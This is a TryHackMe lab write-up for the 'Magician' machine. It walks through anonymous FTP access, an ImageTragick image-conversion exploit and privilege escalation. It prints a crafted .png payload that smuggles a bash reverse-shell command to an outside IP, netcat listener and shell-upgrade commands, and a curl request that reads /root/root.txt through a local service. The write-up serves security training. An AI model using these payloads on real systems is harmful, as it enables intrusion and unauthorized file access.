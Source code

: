 <h1> Tryhackme Magician Machine </h1>
<h3>by purpler0se</h3>
	<p>...enjoy :D</p>
<h2> Starting off with basic enumeration to get our ports </h2>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/nmap.png">
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/etc.png">
	<h4> Now remembering what was instructed in the info for task one which was "Please add the IP address of this machine with the hostname 'magician'
		to your /etc/hosts file on linux before you start." (example above)</h4>
<h3> I checked out ftp port logging in as "anonymous" user with no password</h3><h4> ftp [MACHINE_IP] 21 </h4>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ftp.png">
<h3> I got prompted with this as i logged in. It told me a clue that will help us later in our payload</h3>
	</h4>https://imagetragick.com</h4>
</br>
<h1>Web enumeration</h1>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/convert.png">

<h3> Port 8081 had a png to jpg converted which could be a ticket for our shell</h3>
	<h4>but port 8080,for now had nothing intresting</h4>
	<h3> with that given link (https://imagetragick.com) we can create a reverse shell payload</h3>
</br>
<h1> Creating mv Png Payload </h2>
	<h3>On you local create a file with the extension .png shown in the commands below</h3>
		<h4>touch reverse.png</h4>
		<h4> nano reverse.png</h4>
	<h3>Paste this code in</h3>
		<h4>push graphic-context</h4>
		<h4>viewbox 0 0 640 480</h4>
		<h4>fill 'url(https://example.com";bash -c \'bash -i >& /dev/tcp/10.9.1.225/1557 0>&1\'")'</h4>
		<h4>pop graphic-context</h4>
		<h3>I've changed the original payload at https://imagetragick.com so it gives us a shell, further explaination of this exploit CVE-2016-3174 at https://imagetragick.com</h3></br>
			<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/payload.png">
		<h4>Your payload should look like this</h4>
<h1> Getting a shell</h1>
	<h3>Setup a netcat listner on your local machine</h3>
	<h4> nc -lnvp [any_port]</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/upload.png">
	<h3> Now upload that payload and onces its submitted click on it and then just wait for a callback</h3>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/shell.png">
	<h3>Once you get the callback upgrade your shell by doing the following commands</h3>
	<h4>export TERM=xterm</h4>
	<h4>python3 -c "import pty;pty.spawn('/bin/bash')"</h4>
	<h4>CTRL + Z</h4>
	<h4>BASH: stty raw -echo && fg</br>
	ZSH: stty raw -echo; fg
	</h4>
	<h4> and then WHACK your enter key 3x</h4>
	<h4> stty rows [yours] cols [yours] (You can find your rows and columns by doing stty -a on your local machine</h4>
<h1> From Magician to ROOT</h1>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/hint.png">
	<h3>We got a hint in the home directory magician, file named "the_magic_continues," the giveaway to the priv esc is "locally listening" therefore its a internal ip priv esc 			situation.We can list the listening connection on the targets machine by doing</h3>
	<h4>netstat -ant</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ips.png">
	<h3>As you can see the localhost on port 6666 is listening. I did the following command</h3>
		<h4> curl 127.0.0.1:6666</h4>
	<h3>And got the code for a simple input website - i think was suppose to be port 8081</h3>
	<h3>Now reading the source code u can see there is a input with the name "filename" so the code i used to send to this input is</h3>
		<h4>curl --request POST 'http://127.0.0.1:6666' --data "filename=/root/root.txt"</h4>
	<h3>I decrypted this by going to https://gchq.github.io/CyberChef/ and using the "From Hex" to get the THM{} flag</h3>
<h2>Socials</h2>
discord - purpler0se#6981
tryhackme - https://tryhackme.com/p/purplerose
<h1> Thanks for reading my writeup on how i tackled this machine</h1>
	
	
	
	
